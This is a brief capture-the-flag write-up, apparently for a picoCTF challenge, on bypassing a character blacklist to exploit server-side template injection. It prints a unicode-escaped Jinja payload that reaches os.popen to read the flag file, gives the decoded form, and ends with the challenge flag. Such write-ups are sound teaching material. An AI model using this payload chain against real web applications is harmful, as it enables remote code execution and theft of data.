 
>I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :)
I heard templating is a cool and modular way to build web apps! Check out my website here!


- It has backlisting so we have to bypass that somehow 

-ways to do so is case manipulation,hex,base64,encoding 

- Why is blacklisting characters a bad idea to sanitize input ? the answer is that we can find alternatives like unicode / hexing or any other type of encoding to bypass that . 

-the final payload that worked was : 

```
{{ config
   |attr('\u005f\u005f\u0063\u006c\u0061\u0073\u0073\u005f\u005f')
   |attr('\u005f\u005f\u0069\u006e\u0069\u0074\u005f\u005f')
   |attr('\u005f\u005f\u0067\u006c\u006f\u0062\u0061\u006c\u0073\u005f\u005f')
   |attr('get')('\u006f\u0073')
   |attr('\u0070\u006f\u0070\u0065\u006e')('\u0063\u0061\u0074\u0020\u002f\u0063\u0068\u0061\u006c\u006c\u0065\u006e\u0067\u0065\u002f\u0066\u006c\u0061\u0067')
   |attr('\u0072\u0065\u0061\u0064')()
}}

```

this is just equivalent to 

`{{ config.__class__.__init__.__globals__.get('os').popen('cat /challenge/flag').read() }}
` 

but in unicode . 

![alt text](image.png) 

is whats happening here .

 > picoCTF{sst1_f1lt3r_byp4ss_e3f3b57a}